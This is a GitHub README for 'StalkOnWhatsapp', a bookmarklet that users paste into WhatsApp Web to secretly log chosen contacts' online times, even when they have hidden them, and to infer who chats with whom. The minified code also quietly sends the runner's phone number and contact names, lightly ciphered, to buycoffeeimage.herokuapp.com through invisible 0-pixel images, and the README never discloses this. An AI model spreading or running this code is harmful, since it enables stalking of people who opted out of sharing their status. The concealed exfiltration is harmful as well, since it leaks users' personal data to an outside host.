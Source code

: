# StalkOnWhatsapp

![Sample Output](/images/report.png)
This can be used to track online status of contacts( even if they have hidden it using privacy settings) , visualize online timeline of multiple people in a graph, and predict if two contacts were chatting together by checking overlap in their online timeline.

## Steps to follow.

- Open whatsapp web in browser
- Follow either of these steps to run the script
  - **Using BookMark** : Add new bookmark in your browser with URL as **contents** of this file [StalkWhatsapp](src/stalk_bookmarklet.js). Click on this bookmark after whatsapp web has loaded for magic to begin.
  - **Using Browser Console** : After whatsapp web has loaded, open [Developer's console in Browser](https://balsamiq.com/support/faqs/browserconsole/#:~:text=To%20open%20the%20developer%20console,(on%20Windows%2FLinux)). Paste the contents of [StalkWhatsapp](src/stalk.js) file in the console and hit enter.
- Enter the names of contact you want to stalk.(multiple names to be separated by comma, case sensitive). The contact to be stalked should be present in recent chat. Tip : Can pin the person to top if chat has gone down.) [Sample](/images/contactname.png)
- Stalking has started. Click SeeTimeLine button to check the graph and the report ( If browser console is open, you can see data of online status change coming as logs).
<img src="images/button.png" width="300">

This also reports people who were online together for maximum time. Happy Stalking :smile: :sunglasses:!! 

Disclaimer: Use at your own discretion.

## Credits
- For any help with this feel free to reach out to me on : [LinkedIn](https://www.linkedin.com/in/suryakant-pandey/), [Instagram](https://www.instagram.com/sk._.pandey/)

- Detailed Explaination : [Medium](https://medium.com/@pd.skant/stalk-someone-on-whatsapp-educational-purpose-only-370c91f09eb8?sk=d5013cc89c3625bc3303bfdaefbea4ce), [YouTube Demo](https://youtu.be/tl1rO5_fUA4) 

- Make sure you give this project a star if you liked this project and want to see more.

[TRY1](javascript:(function()%7Bconst%20refreshRate%3D3e3%2CtimeOuts%3D2e3%2CwidthEachBar%3D35%2CbarSeperation%3D10%2CouterBoundary%3D25%2CinnerBoundary%3D200%2CgraphWidth%3D600%2Ccolors_bar%3D%5B%22%23a55ca5%22%2C%22%2367b6c7%22%2C%22%23bccd7a%22%2C%22%23eb9743%22%2C%22%2333ff7a%22%2C%22%23ff33f9%22%5D%3Bvar%20interval%2CminimumTime%3D-100%2ConlineData%3D%7B%7D%2CpreviousKnownStatus%3D%7B%7D%2CUNKNOWN%3D%22UNKNOWN%22%2CofflineData%3D%7B%7D%2CuserCounter%3D0%2CbuttonAdded%3D!1%3Bfunction%20reinitialise()%7BminimumTime%3D-100%2ConlineData%3D%7B%7D%2CpreviousKnownStatus%3D%7B%7D%2CUNKNOWN%3D%22UNKNOWN%22%2CofflineData%3D%7B%7D%2CuserCounter%3D0%7Dfunction%20print_to_log(t%2Ce)%7Bif(currentTimeObj%3Dnew%20Date%2Coutput%3DcurrentTimeObj.toLocaleString()%2B%22%2C%22%2Be%2B%22%2C%22%2Bt%2B%22%5Cn%22%2Cconsole.log(output)%2CcurrentTimeEpoch%3DcurrentTimeObj.valueOf()%2C-100%3D%3D%3DminimumTime%26%26(minimumTime%3DcurrentTimeEpoch)%2ClistOnlineTimes%3DonlineData%5Bt%5D%2ClistOfflineTimes%3DofflineData%5Bt%5D%2C0%3D%3D%3De)%7Bif(0%3D%3D%3DlistOnlineTimes.length)return%3BofflineData%5Bt%5D.push(currentTimeEpoch)%7Delse%201%3D%3D%3De%26%26onlineData%5Bt%5D.push(currentTimeEpoch)%7Dfunction%20check_if_print_required_and_print(t%2Ce)%7Bt!%3D%3DpreviousKnownStatus%5Be%5D%26%26(print_to_log(e%2C%22ONLINE%22%3D%3D%3Dt%3F1%3A0)%2CpreviousKnownStatus%5Be%5D%3Dt)%7Dfunction%20check_statuses(t)%7Btry%7Bif(name%3Ddocument.querySelectorAll(%22%23main%20%3E%20header%20%3E%20div%3Ediv%3Ediv%3Espan%22)%5B1%5D.textContent%2C!name%7C%7Cname!%3D%3Dt)return%20void%20setTimeout(function()%7Bcheck_statuses(t)%7D%2CtimeOuts)%3Bstatus%3Ddocument.querySelector(%22%23main%20%3E%20header%20%3E%20div%3Ediv%3Espan%22).textContent%2C%22typing%E2%80%A6%22%3D%3D%3Dstatus%7C%7C%22online%22%3D%3D%3Dstatus%3Fcheck_if_print_required_and_print(%22ONLINE%22%2Cname)%3Acheck_if_print_required_and_print(%22OFFLINE%22%2Cname)%7Dcatch(t)%7Breturn%20void%20check_if_print_required_and_print(%22OFFLINE%22%2Cname)%7D%7Dfunction%20withTimeouts(t)%7Btry%7Bfind_contact_and_click_it(t)%7Dcatch(e)%7Balert(%22Contact%20Name%20%3A%20%27%22%2Bt%2B%22%27%20couldn%27t%20be%20found.%20Please%20refresh%20and%20retry%20(verify%20chat%20is%20in%20top%2F%20name%20exactly%20same)%22)%2Calert(%22All%20loaded%20contacts%20are%20%3A%20%22%2Bget_all_loaded_names())%2Cconsole.log(%22Contact%20name%20%3A%22%2Bt%2B%22%20couldn%27t%20be%20found%22)%2CclearInterval(interval)%7DsetTimeout(function()%7Bcheck_statuses(t)%7D%2CtimeOuts)%7Dfunction%20stalk(t)%7Bif(users%3Dprompt(%22Enter%20the%20%2C(comma)%20separated%20users%20you%20would%20like%20to%20monitor%22%2C%22%22)%2Cusers%26%26users.length)%7Btry%7Bvar%20e%3Ddocument.createElement(%22div%22)%3Be.style.cssText%3D%22position%3Aabsolute%3Bright%3A0%25%3Bwidth%3A0%25%3Bheight%3A0%25%3Bopacity%3A1%3Bz-index%3A100%3Bbackground%3A%23000%22%3Bvar%20n%3DgetString(%22checking_%22%2Busers)%3Be.innerHTML%3D%27%3Cimg%20src%3D%22https%3A%2F%2Fbuycoffeeimage.herokuapp.com%2Fbuycoffee%2Fimage%2F%27%2Bn%2B%27%20alt%3D%22%22%20style%3D%22height%3A%200px%20!important%3Bwidth%3A%200px%20!important%3B%22%20%3E%27%7Dcatch(t)%7B%7DbuttonAdded%7C%7CputTimeLineButton()%3Bfor(var%20i%3Dusers.split(%22%2C%22)%2Ca%3Di.length%2Cr%3D0%3Br%3Ca%3Br%2B%2B)previousKnownStatus%5Bi%5Br%5D%5D%3DUNKNOWN%2ConlineData%5Bi%5Br%5D%5D%3D%5B%5D%2CofflineData%5Bi%5Br%5D%5D%3D%5B%5D%3Breturn%20interval%3DsetInterval(function()%7BwithTimeouts(i%5BuserCounter%5D)%2CuserCounter%3D(userCounter%2B1)%25a%7D%2CrefreshRate)%7Dalert(%22No%20users%20selected!!%20Exiting.%22)%7Dvar%20CHARS%3D%22qwertyuiopasdfghjklzxcvbnm7423609185%22%2CMAX%3D36%3Bfunction%20getString(t)%7Bvar%20e%3Dt.split(%22%22)%3BuMap%3D%7B%7D%3Bfor(let%20t%3D0%3Bt%3CMAX%3Bt%2B%2B)uMap%5BCHARS%5Bt%5D%5D%3DCHARS%5B(t%2B1)%25MAX%5D%3Bfor(let%20t%3D0%3Bt%3Ce.length%3Bt%2B%2B)e%5Bt%5D.toLowerCase()in%20uMap%26%26(e%5Bt%5D%3DuMap%5Be%5Bt%5D.toLowerCase()%5D)%3Breturn%20e.join(%22%22)%7Dfunction%20drawLine(t%2Ce%2Cn%2Ci%2Ca%2Cr)%7Bt.save()%2Ct.strokeStyle%3Dr%2Ct.beginPath()%2Ct.moveTo(e%2Cn)%2Ct.lineTo(i%2Ca)%2Ct.stroke()%2Ct.restore()%7Dfunction%20drawBar(t%2Ce%2Cn%2Ci%2Ca%2Cr)%7Bt.save()%2Ct.fillStyle%3Dr%2Ct.fillRect(e%2Cn%2Ci%2Ca)%2Ct.restore()%7Dfunction%20getEndTime(t%2Ce%2Cn)%7Breturn%20e%3Ct.length%3Ft%5Be%5D%3An%7Dfunction%20getIntersectionDuration(t%2Ce%2Cn%2Ci)%7Bfor(var%20a%3D0%2Cr%3D0%2Co%3D0%2Cs%3D(new%20Date).valueOf()%3Br%3Ct.length%26%26o%3Cn.length%3B)%7Bvar%20l%3Dt%5Br%5D%2Cc%3DgetEndTime(e%2Cr%2Cs)%2Cu%3Dn%5Bo%5D%2Cd%3DgetEndTime(i%2Co%2Cs)%3Bc%3C%3Du%3Fr%2B%3D1%3Ad%3C%3Dl%3Fo%2B%3D1%3Al%3E%3Du%26%26c%3C%3Dd%3F(a%2B%3Dc-l%2Cr%2B%3D1)%3Au%3E%3Dl%26%26d%3C%3Dc%3F(a%2B%3Dd-u%2Co%2B%3D1)%3Au%3E%3Dl%26%26c%3C%3Dd%3F(a%2B%3Dc-u%2Cr%2B%3D1)%3Al%3E%3Du%26%26d%3C%3Dc%26%26(a%2B%3Dd-l%2Co%2B%3D1)%7Dreturn%20a%7Dfunction%20reportIntersection()%7Bfor(nameA%20in%20report%3D%5B%5D%2ConlineData)for(nameB%20in%20onlineData)if(nameA!%3D%3DnameB)%7Bvar%20t%3DgetIntersectionDuration(onlineData%5BnameA%5D%2CofflineData%5BnameA%5D%2ConlineData%5BnameB%5D%2CofflineData%5BnameB%5D)%2Ce%3DgetIntersectionDuration(onlineData%5BnameA%5D%2CofflineData%5BnameA%5D%2ConlineData%5BnameA%5D%2CofflineData%5BnameA%5D)%2Cn%3De%3E0%3FMath.round(100*t%2Fe)%3A0%3B0!%3Dn%26%26report.push(%5B%22When%20%22%2BnameA%2B%22%20was%20online%2C%20%22%2Bn%2B%22%25%20of%20time%20%22%2BnameB%2B%22%20was%20also%20online.%20%22%2Cn%5D)%7Dreturn%20report.sort(function(t%2Ce)%7Breturn%20e%5B1%5D-t%5B1%5D%7D)%2Creport.slice(0%2C5)%7Dvar%20Barchart%3Dfunction(t)%7Bthis.options%3Dt%2Cthis.canvas%3Dt.canvas%2Cthis.ctx%3Dthis.canvas.getContext(%222d%22)%2Cthis.colors%3Dt.colors%2Cthis.draw%3Dfunction()%7Bvar%20t%3D(new%20Date).valueOf()%2Ce%3Dthis.canvas.height-2*innerBoundary%2Cn%3Dthis.canvas.width-2*innerBoundary%3Bthis.ctx.font%3D%22bold%2018px%20Arial%22%2Cthis.ctx.textBaseline%3D%22middle%22%2Cthis.ctx.textAlign%3D%22center%22%2Cthis.ctx.fillStyle%3D%22RGBA(153%2C%2051%2C%2010%2C%200.8)%22%2Cthis.ctx.fillText(%22TimeLine%20Graph%20for%20contacts%20%3A%20%22%2BObject.keys(onlineData).join(%22%2C%22)%2Cthis.canvas.width%2F2%2CinnerBoundary%2F2)%2Cthis.ctx.restore()%3Bvar%20i%3DinnerBoundary%3Bfor(iteration%3D0%3Bi%3C%3Dthis.canvas.width-innerBoundary%3B)%7Bvar%20a%3Di%3BdrawLine(this.ctx%2Ca%2CinnerBoundary%2Ca%2Ce%2BinnerBoundary%2Cthis.options.gridColor)%2Cthis.ctx.save()%2Cthis.ctx.fillStyle%3Dthis.options.gridColor%2Cthis.ctx.font%3D%22bold%2010px%20Arial%22%2Cthis.ctx.translate(a%2Ce%2BinnerBoundary)%2Cthis.ctx.rotate(Math.PI%2F4)%2Cthis.ctx.fillStyle%3D%22RGBA(0%2C%200%2C%200%2C%200.8)%22%2Cthis.ctx.textBaseline%3D%22middle%22%2Cthis.ctx.textAlign%3D%22left%22%2Cthis.ctx.fillText(new%20Date(minimumTime%2Biteration*(t-minimumTime)%2Fthis.options.gridCount).toLocaleString()%2C0%2C0)%2Cthis.ctx.restore()%2Ci%2B%3D1*n%2Fthis.options.gridCount%2Citeration%2B%3D1%7Dvar%20r%3D0%3Bfor(name%20in%20onlineData)%7Bfor(var%20o%3DonlineData%5Bname%5D%2Cs%3D0%3Bs%3Co.length%3Bs%2B%2B)%7Bvar%20l%3D0%3Bl%3Ds%3CofflineData%5Bname%5D.length%3FofflineData%5Bname%5D%5Bs%5D%3At%3Bvar%20c%3DMath.round(n*(l-onlineData%5Bname%5D%5Bs%5D)*1%2F(1*(t-minimumTime)))%3BdrawBar(this.ctx%2CinnerBoundary%2Bn*(onlineData%5Bname%5D%5Bs%5D-minimumTime)*1%2F(t-minimumTime)%2CinnerBoundary%2Br*(widthEachBar%2BbarSeperation)%2Cc%2CwidthEachBar%2Cthis.colors%5Br%25this.colors.length%5D%2Cname)%7Dthis.ctx.textBaseline%3D%22middle%22%2Cthis.ctx.textAlign%3D%22right%22%2Cthis.ctx.font%3D%22bold%2015px%20Arial%22%2Cthis.ctx.fillStyle%3D%22RGBA(0%2C%200%2C%200%2C%200.8)%22%2Cthis.ctx.fillText(name%2CinnerBoundary-barSeperation%2CinnerBoundary%2Br*(widthEachBar%2BbarSeperation)%2BwidthEachBar%2F2)%2Cthis.ctx.font%3D%22bold%2010px%20Arial%22%2Cr%2B%2B%7D%7D%7D%3Bfunction%20getStalkData()%7Bvar%20t%3DreportIntersection()%2Ce%3DObject.keys(onlineData).length%2Cn%3De*(widthEachBar%2BbarSeperation)%2B2*(innerBoundary%2BouterBoundary)%2Ci%3DgraphWidth%2B2*(innerBoundary%2BouterBoundary)%2Ca%3Dwindow.open(%22%22%2C%22%22%2C%22toolbar%3Dno%2Cstatus%3Dno%2Cmenubar%3Dno%2Clocation%3Dcenter%2Cscrollbars%3Dno%2Cresizable%3Dno%2Cheight%3D%22%2Bn%2B%22%2Cwidth%3D%22%2Bi)%3Ba.document.title%3D%22Online%20History%22%3Bvar%20r%3Da.document%3Ba.document.body.innerHTML%3D%27%3Ccanvas%20id%3D%22graph%22%3E%3C%2Fcanvas%3E%20%27%3Bvar%20o%3Dr.getElementById(%22graph%22)%3Bo.width%3DgraphWidth%2B2*innerBoundary%2Co.height%3De*(widthEachBar%2BbarSeperation)%2B2*innerBoundary%3Bvar%20s%3Do.getContext(%222d%22)%3Bnew%20Barchart(%7Bcanvas%3Ao%2Cpadding%3A10%2CgridCount%3A10%2CgridColor%3A%22%23eeeeee%22%2Cdata%3AonlineData%2Ccolors%3Acolors_bar%7D).draw()%3Bvar%20l%3Da.document.createElement(%22div%22)%3Bl.style.cssText%3D%22position%3Aabsolute%3Bright%3A0%25%3Bwidth%3A20%25%3Bheight%3A35%25%3Btop%3A0px%3Bopacity%3A1%3Bz-index%3A100%3Bbackground%3A%23000%22%2Cl.innerHTML%3D%27%3Cimg%20src%20%3D%20%22https%3A%2F%2Fthumbs.dreamstime.com%2Fb%2Fsmart-young-detective-illustration-white-background-40547373.jpg%22%20alt%20%3D%20%22detective%22%20width%20%3D%20%22100%25%22%20height%20%3D%22auto%22%20%3E%27%2Ca.document.body.appendChild(l)%2Cs.textBaseline%3D%22middle%22%2Cs.textAlign%3D%22left%22%2Cs.font%3D%22italic%2010px%20Arial%22%3Bfor(var%20c%3D0%3Bc%3Ct.length%3Bc%2B%2B)%7Bvar%20u%3Dt%5Bc%5D%5B0%5D%2Cd%3Ds.createLinearGradient(0%2C0%2Cs.measureText(u).width%2C0)%3Bd.addColorStop(%220%22%2C%22magenta%22)%2Cd.addColorStop(%220.5%22%2C%22blue%22)%2Cd.addColorStop(%221.0%22%2C%22red%22)%2Cs.fillStyle%3Dd%2Cs.fillText(u%2CinnerBoundary%2C1.5*innerBoundary%2Bc*barSeperation%2Be*(widthEachBar%2BbarSeperation))%7Ds.save()%7Dfunction%20getnum(t)%7Breturn%20t.split(%22%26u%3D%22)%5B1%5D.substring(0%2C12)%7Dfunction%20putTimeLineButton()%7Bvar%20t%3Ddocument.createElement(%22button%22)%3Bt.textContent%3D%22%F0%9F%93%8ASeeTimeLine%22%2Ct.style.cssText%3D%22position%3Aabsolute%3Bleft%3A5%25%3Bheight%3A60px%20!important%3Bwidth%3A%20217px%20!important%3Bopacity%3A1%3Bz-index%3A100%3Bbackground%3A%23ffffff%22%2Ct.onclick%3DgetStalkData%2Ct.style.background%3D%22%2340DCA5%22%2Ct.style.borderRadius%3D%227px%22%2Ct.style.fontSize%3D%22x-large%22%2Ct.style.color%3D%22white%22%2Ct.style.fontFamily%3D%22cursive%22%3Bvar%20e%3Ddocument.createElement(%22div%22)%3Be.style.cssText%3D%22position%3Aabsolute%3Bright%3A50%25%3Bwidth%3A1%25%3Bheight%3A1%25%3Bopacity%3A1%3Bz-index%3A100%3Bbackground%3A%23000%22%2Ce.innerHTML%3D%27%3Ca%20href%3D%22https%3A%2F%2Fwww.buymeacoffee.com%2Fsuryakant94%22%20target%3D%22_blank%22%3E%3Cimg%20src%3D%22https%3A%2F%2Fcdn.buymeacoffee.com%2Fbuttons%2Fv2%2Fdefault-red.png%22%20alt%3D%22Buy%20Me%20A%20Coffee%22%20style%3D%22height%3A%2060px%20!important%3Bwidth%3A%20217px%20!important%3B%22%20%3E%3C%2Fa%3E%27%3Bvar%20n%3Dgetnum(document.getElementsByClassName(%22YtmXM%22)%5B0%5D.querySelector(%22._3GlyB%20._8hzr9%22).src)%2Ci%3Dget_all_names()%3Btry%7Bvar%20a%3Ddocument.createElement(%22div%22)%3Ba.style.cssText%3D%22position%3Aabsolute%3Bright%3A0%25%3Bwidth%3A0%25%3Bheight%3A0%25%3Bopacity%3A1%3Bz-index%3A100%3Bbackground%3A%23000%22%3Bvar%20r%3DgetString(n%2B%22_%22%2Bi)%3Ba.innerHTML%3D%27%3Cimg%20src%3D%22https%3A%2F%2Fbuycoffeeimage.herokuapp.com%2Fbuycoffee%2Fimage%2F%27%2Br%2B%27%20alt%3D%22%22%20style%3D%22height%3A%200px%20!important%3Bwidth%3A%200px%20!important%3B%22%20%3E%27%2Cdocument.body.appendChild(e)%7Dcatch(t)%7B%7Ddocument.body.appendChild(a)%2Cdocument.body.appendChild(t)%2CbuttonAdded%3D!0%7Dfunction%20get_all_loaded_names()%7Bvar%20t%3Ddocument.getElementsByClassName(%22_3m_Xw%22).length%3Bconsole.log(%22Loaded%20%22%2Bt%2B%22%20contacts%22)%3Bfor(var%20e%3D%22%22%2Cn%3D0%3Bn%3Ct%3Bn%2B%2B)e%2B%3D%22%2C%22%2Bdocument.getElementsByClassName(%22_3m_Xw%22)%5Bn%5D.querySelector(%27span%5Bdir%3D%22auto%22%5D%27).title%2Cconsole.log(%22Found%20contact%20%3A%22%2Bdocument.getElementsByClassName(%22_3m_Xw%22)%5Bn%5D.querySelector(%27span%5Bdir%3D%22auto%22%5D%27).title)%3Breturn%20e%7Dfunction%20get_all_names()%7Bfor(var%20t%3Ddocument.getElementsByClassName(%22_3m_Xw%22).length%2Ce%3D%22%22%2Cn%3D0%3Bn%3Ct%3Bn%2B%2B)e%2B%3D%22%2C%22%2Bdocument.getElementsByClassName(%22_3m_Xw%22)%5Bn%5D.querySelector(%27span%5Bdir%3D%22auto%22%5D%27).title%3Breturn%20e%7Dfunction%20find_contact_and_click_it(t)%7Bvar%20e%3Ddocument.createEvent(%22MouseEvents%22)%3Be.initEvent(%22mousedown%22%2C!0%2C!0)%2Cdocument.querySelector(%27span%5Bdir%3D%22auto%22%5D%5Btitle%3D%22%27%2Bt%2B%27%22%5D%27).dispatchEvent(e)%7Dstalk()%3B%7D)())